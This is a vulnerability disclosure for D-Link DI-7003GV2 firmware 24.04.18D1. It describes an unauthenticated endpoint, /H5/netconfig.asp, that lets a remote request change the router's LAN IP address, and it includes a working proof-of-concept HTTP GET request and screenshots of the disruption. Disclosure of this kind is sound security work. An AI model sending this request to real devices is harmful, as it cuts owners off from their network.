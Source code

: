 # Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 R(68125) has an authentication bypass vulnerability in the `/H5/netconfig.asp` interface. Remote attackers can modify the device’s LAN IP address without authentication, potentially causing loss of access or network disruption.

# Vulnerability details


The processing function for the `H5/netconfig.asp` interface is `sub_497DE4`.

![图 0](img/cf1fe13d149cee3604936dcafe3b2ee1f712210029de8aba8cac16da38920316.png)  

The `sub_497DE4` function retrieves the user-input lan_ipaddr, checks if the IP is valid, and then sets it as the lan IP address.

![图 1](img/2fc68472198ffc1f697bde1de5a22a4c5b604b0ed8042e0d57ac39c9585b6376.png)  


# POC

The device login address is 192.168.140.240.

![图 2](img/35eb2f70b81c0bf8f3191a7731ab66a7e5abc7a49780d879774d84016ed7f28d.png)  

Sending the POC data packet does not receive a response, but our login address has actually been modified.

```http
GET /H5/netconfig.asp?lan_ipaddr=192.168.1.99 HTTP/1.1
Host: 192.168.140.240
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

![图 3](img/c038fcc1b5aad243e0d0b51028aa89b70af0bfbcd91b814b91dd68e420ce7726.png)  

The original IP address can no longer be accessed, and the page has been transferred to a new IP address.

![图 4](img/2cf24f2a423402e8ed4d9ce244311b9c699c1bd1b0ab7165576db7e8ac28c7af.png)  

![图 5](img/b1ff8638a3d22837d067fc183cc0178b8b9f73a2249786e76877be9940345798.png)  
